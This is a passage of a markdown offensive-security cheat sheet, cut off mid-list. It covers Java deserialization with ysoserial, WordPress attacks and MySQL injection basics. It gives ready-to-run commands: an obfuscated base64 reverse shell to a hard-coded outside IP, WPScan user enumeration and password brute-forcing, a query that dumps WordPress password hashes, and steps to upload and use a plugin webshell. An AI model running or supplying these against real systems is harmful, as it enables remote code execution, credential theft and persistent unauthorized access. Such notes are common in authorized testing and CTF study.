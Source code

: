 ### Java
- String start with
    - `\xac\xed\x00\x05` or Base64 (`rO0AB`) 
- ysoserial
    - https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```dockerfile
FROM openjdk:11.0.16
COPY ysoserial-all.jar /root/ysoserial-all.jar

ENTRYPOINT ["java", "-jar", "/root/ysoserial-all.jar"]
# docker build . -t ysoserial:meow
```
- PoC
    - `docker run --rm ysoserial:meow CommonsCollections3 'touch /tmp/meow'`
- Reverse shell
    - `docker run --rm ysoserial:meow CommonsCollections3 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zNS43NC42Ny4xOS82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}'`
    - Note that don't add `-it` in docker
### CMS
#### Wordpress
- WPScan
    - `wpscan --url {URL} --enumerate p,t,u --plugins-detection aggressive -t 30`
        - enumerate
            - p : plugin
            - t : theme
            - u : users
        - t : thread
    - `wpscan --url {url} --usernames {username} --passwords {password_file} -t 30`
- Enum user
    - `http://{ip}/index.php/?author=1`
- plugins path
    - `/wp-content/plugins/{plugin_name}`
- Password db
    - `SELECT concat(user_login,":",user_pass) FROM wp_users;`
- Config file (DB Pass)
    - `wp-config.php`
- Plugin Webshell
    - `wget https://raw.githubusercontent.com/jckhmr/simpletools/master/wonderfulwebshell/wonderfulwebshell.php`
    - `zip wonderfulwebshell.zip wonderfulwebshell.php`
    - Upload and Enable
    - `http://{doamin}/wp-content/plugins/wonderfulwebshell/wonderfulwebshell.php?cmd=ls`
### MySQL injection
- https://portswigger.net/web-security/sql-injection/cheat-sheet
#### SQL Command
- Limit
    - `LIMIT 0,1` , `LIMIT 1,1` , `LIMIT 2,1` ...
        - Select only 1 data
    - `LIMIT 1 OFFSET 0`, `LIMIT 1 OFFSET 1`
- Substring
    - `SUBSTRING("ABC",1,1)`
        - Will return `A`
    - `SUBSTRING("ABC",2,1)`
        - Will return `B`
- ASCII
    - `ASCII("A")`
        - Will Return `65`
- Concat
    - `concat(1,':',2)`
        - Will return `1:2`
- Group concat